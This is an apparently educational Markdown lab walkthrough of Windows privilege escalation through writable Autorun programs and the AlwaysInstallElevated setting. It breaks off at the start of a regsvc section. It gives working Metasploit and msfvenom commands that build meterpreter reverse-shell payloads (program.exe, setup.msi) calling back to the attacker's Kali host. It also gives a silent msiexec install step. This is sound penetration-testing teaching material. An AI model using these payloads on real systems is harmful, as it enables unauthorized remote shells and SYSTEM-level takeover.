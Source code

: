 # Escalation Path Registry

## Autorun

Autoruns refer to programs, scripts, or services that automatically execute when Windows starts or when a device (like a USB) is plugged in.

### Detection of Auto runs programs 

***Windows VM***

**Run Autoruns**:

Open *Command Prompt* and execute `Autoruns64.exe`.

```
**C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe**
```

Navigate to the *‘Logon’ tab* to check programs that auto-start at user login.

**Identify Vulnerable Entry**:

"My Program" is set to run automatically from:

```
C:\Program Files\Autorun Program\program.exe
```

**Check File Permissions**:

Use *AccessChk* to inspect permissions:
   
```
accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

The output shows **"Everyone" has FILE_ALL_ACCESS**, meaning **any user (even non-admins) can modify** `program.exe`.

**Exploitation Possibility**:

- Since `program.exe` runs at *logon*, an attacker can *replace it with a malicious file* (e.g., a reverse shell).

- Upon restart/login, the system will execute the attacker’s payload, potentially leading to **privilege escalation**.

### Exploitations

**Kali VM**

Open command prompt and type: 

```
msfconsole
```

In Metasploit (msf > prompt) type: 

```
use multi/handler
```  

In Metasploit (msf > prompt) type:

```
set payload windows/meterpreter/reverse_tcp
```  

In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]
```

In Metasploit (msf > prompt) type: 

```
run
```

Open an additional command prompt and type: 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe  
```

Copy the generated file, program.exe, to the Windows VM.

**Windows VM**

1. Place program.exe in `C:\Program Files\Autorun Program`  
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

**Kali VM**

1. Wait for a new session to open in Metasploit.  
2. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`

## AlwaysInstallElevated

The **AlwaysInstallElevated"** setting in Windows allows **MSI (Microsoft Installer) packages** to install with **SYSTEM privileges**, even when run by a low-privileged user. If misconfigured, an attacker can exploit it to **gain full control (privilege escalation)**.

### Detection 

**Windows VM**

1. Open command prompt and type: 

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```  

From the output, notice that `AlwaysInstallElevated` value is `1`. 

2. In command prompt type: 

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```  

From the output, notice that `AlwaysInstallElevated` value is `1`.

### Exploitation

**Kali VM**

Open command prompt and type: `msfconsole`  

In Metasploit (msf > prompt) type:

```
use multi/handler  
```

In Metasploit (msf > prompt) type: 

```
set payload windows/meterpreter/reverse_tcp  
```

In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]  
```

In Metasploit (msf > prompt) type: `run` 

Open an additional command prompt and type:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi  
```

Copy the generated file, `setup.msi`, to the Windows VM. 

**Windows VM**

1.Place *setup.msi* in `C:\Temp`.  
2.Open command prompt and type: 

```
msiexec /quiet /qn /i C:\Temp\setup.msi
```

## regsrv (registry service)

This attack exploits **weak registry permissions** on the `regsvc` service, allowing a **low-privileged user** to replace the service’s executable path with a **malicious binary**, resulting in **privilege escalation** to an administrator


